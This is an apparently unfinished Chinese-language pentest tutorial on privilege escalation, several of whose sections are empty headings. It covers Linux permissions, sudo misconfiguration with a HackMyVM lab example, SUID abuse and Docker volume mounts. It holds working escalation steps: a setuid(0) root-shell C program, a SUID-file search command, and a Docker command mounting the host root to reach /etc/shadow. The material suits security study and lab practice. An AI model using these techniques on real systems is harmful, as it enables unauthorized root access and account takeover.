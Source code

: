 # Privilege Escalation 权限提升

在真实场景中，为了安全起见，服务常用普通权限账户或者专门账户进行运行，而攻击者通过对目标系统对外开放的服务漏洞进行攻击，得到的权限也就是服务运行所使用的账户的权限。而对于渗透攻击来说，对目标系统的最终攻击目标是取得最高权限（`Windows` 系统的 `NT AUTHORITY\SYSTEM` 权限或是 `Linux` 系统的 `root` 权限）以掌握目标系统的完全控制，那么就需要攻击者从攻击当前服务得到的普通权限或者低权限，经过攻击提升到最高权限。

对于攻击者而言，为了从普通权限提升到最高权限，就需要攻击者对目标系统的环境进行探测，寻找系统内可能存在的漏洞，或者配置错误的安全策略，并进而将当前的权限提升至最高权限。

## Linux 提权

在 Linux 系统中，用户权限通常由 `/etc/passwd` 文件中的用户字段进行定义，用户权限由 `uid` 和 `gid` 进行定义，其分别为 `User IDentifier` 和 `Group IDentifier` 两个权限标识，定义用户权限以及用户组权限，对于最高权限（root）而言，其 `uid` 和 `gid` 都为 0，那么对于 `/etc/passwd` 文件可修改的情况下，可以直接对 `/etc/passwd` 文件进行修改，通过直接修改当前用户的权限标识，来直接获取目标系统的最高权限。

在 Linux 系统上，权限管理策略不仅仅由 `/etc/passwd` 定义的用户权限组成，还有文件权限。对于文件权限，可以通过 `ls -lh` 命令进行查看。以 `/etc/passwd` 文件为例

``` bash
ls -lh /etc/passwd
-rw-r--r-- 1 root root 2.1K Nov 15  2023 /etc/passwd
```

文件权限有基础的三个 `r`, `w` 和 `x` 标识，分别代表 `Read`, `Write` 和 `Execute` 三种操作，即读取、写入和执行。在这三个基础权限意外以外，还有三个特殊的 `SUID - set uid`, `SGID - set gid` 和 `SBIT - Sticky Bit` 权限，分别定义文件以拥有者的用户身份执行、文件以拥有组的组身份执行以及目录下的文件只能由 root 或者拥有者进行管理。

### Sudo 提权

`sudo` 所导致的提权，是由 `/etc/sudoers` 配置文件，或 `/etc/sudoers.d` 目录内的配置文件存在有缺陷的 sudo 策略导致的。默认情况下，`sudo` 的配置文件是无法通过普通用户的权限进行读取，但是可以由以下命令来查看当前用户的 `sudo` 策略

```bash
sudo -l
```

可以使用 [GTFOBins - Sudo](https://gtfobins.github.io/#+sudo) 数据库对得到的结果进行排查，`sudo` 所拥有的特性，决定了使用 `sudo` 执行的文件，可以视作 `sudo` 策略所配置的目标用户权限所执行。以 **HackMyVM - Pwned** 靶机作为例子，在获取到 `ariana` 用户的 shell 环境之后，排查 `sudo` 策略

```bash
ariana@pwned:~$ sudo -l
Matching Defaults entries for ariana on pwned:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ariana may run the following commands on pwned:
    (selena) NOPASSWD: /home/messenger.sh
```

根据所得到的结果，说明 `ariana` 用户可以以 `selena` 用户的身份运行 `/home/messenger.sh` 文件。对 `/home/messenger.sh` 文件进行排查，发现其可以执行任意命令，那么就可以通过构造反弹 shell 的命令传入 `/home/messenger.sh` 文件，进而在监听器获得 `selena` 用户的 shell 环境。

### SUID 提权

对于文件的 SUID 权限，其标志文件可以以文件拥有者的用户身份执行，那么如果此文件由 `root` 用户所拥有，并可以执行如 `setuid` 函数等行为，就可以由运行此文件的普通权限提升为 `root` 用户的最高权限。对于当前环境的普通权限，如果发现有可执行文件拥有 `SUID` 权限，同时当前的权限可以对此文件进行修改，就可以使用以下 C 语言片段所编译的可执行文件覆盖此文件的内容

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

对于其中的 `/bin/bash` 应当适用于大部分环境，如果当前环境不存在 `Bash` 则需要替换为其他 Shell 程序，如常见的 `/bin/sh` 程序

对于其他情况，可以使用以下命令对当前环境拥有 SUID 权限的文件进行扫描

```bash
find / -perm -u=s -type f 2>/dev/null
```

可以使用 [GTFOBins - SUID](https://gtfobins.github.io/#+suid) 数据库对得到的结果进行排查，如 `base64` 可以借助 SUID 权限实现任意文件读取，或 `vim` 可以借助 SUID 权限得到 `vim` 文件拥有者用户权限的 shell 环境。

### Capabilities 提权

### 常用 Linux 提权工具

## Windows 提权

`Windows` 系统的权限系统相较 `Linux` 系统的实现更为复杂

### Potato 家族

## 常见特权服务

除了针对系统本身安全策略，或者针对系统自身安全漏洞加以利用实现权限提升，还有一些以最高权限运行，或者拥有特殊权限的服务可以加以利用。

### Docker

对于 `Docker` 而言，其本身因为需要调用系统的 `cgroup` 等特性，所以需要以 `service` 来启动，那么其本身就拥有系统的管理权限。如果低权限用户拥有无安全限制的 `Docker` 操作权限，那么就有可能借助 `Docker` 服务实现权限提升。

借助 `Docker` 服务实现权限提升，常见的做法便是直接操作系统上的安全策略相关的文件。在 `Docker` 的 `Volume` 功能中，可以将宿主系统上的文件或者目录映射进 `Docker` 容器中。为了实现将目录映射进容器进而实现宿主系统上的文件修改，首先需要列出目前 `Docker` 可用的容器镜像，以这份输出为例

```default
REPOSITORY                              TAG       IMAGE ID       CREATED        SIZE
ghcr.io/eugeny/tabby-web                latest    1edfebbb9878   3 days ago     452MB
portainer/portainer-ee                  2.21.4    4af47f50b1c9   7 weeks ago    331MB
rustdesk/rustdesk-server                latest    e0892e67d5a7   2 months ago   23.5MB
ubuntu                                  22.04     97271d29cb79   3 months ago   77.9MB
ghcr.io/kingmo888/rustdesk-api-server   latest    0940480509a6   3 months ago   250MB
```

在这份输出中，可以看到有 `rustdesk` 和 `portainer` 等服务的容器镜像，也有 `ubuntu` 基础镜像。在攻击过程中，建议优先使用基础镜像，因为由于服务镜像可能存在的镜像优化或其他情况，可能会存在 `ENTRYPOINT` 或 `CMD` 容器执行入口被修改为服务可执行文件，或者不存在 `Bash` 或者 `sh` 等情况，这些都会对后续的操作产生阻碍。

这里选择 `ubuntu:22.04` 作为将使用的容器镜像，启动容器

```bash
docker run --rm -it -v /:/host-dir ubuntu:22.04  /bin/bash
root@ff7d6d73832b:/#
```

在容器中，查看宿主系统的敏感文件

```shell
root@ff7d6d73832b:/# cat /etc/hostname
ff7d6d73832b
root@ff7d6d73832b:/# cat /host-dir/etc/hostname
jmt-projekt
root@ff7d6d73832b:/# ls -lh /host-dir/etc/passwd /host-dir/etc/shadow
-rw-r--r-- 1 root root   1.8K Nov 15 05:45 /host-dir/etc/passwd
-rw-r----- 1 root shadow  854 Nov 15 05:51 /host-dir/etc/shadow
```

由于 Linux 的文件权限直接由文件系统直接定义，所以只要当前访问文件的用户权限满足文件权限的要求，都可以实现文件操作。对于使用 `Docker` 操作宿主系统上的文件而言，只要在容器内是 `root` 用户，就可以实现操作挂载进容器内的宿主系统根目录下所有 `root` 用户可操作的文件。如果对宿主系统的 `/etc/passwd` 或者 `/etc/shadow` 文件进行修改，就可以直接修改宿主系统上各用户的用户权限，以及修改各用户的账户密码。

### rc-local
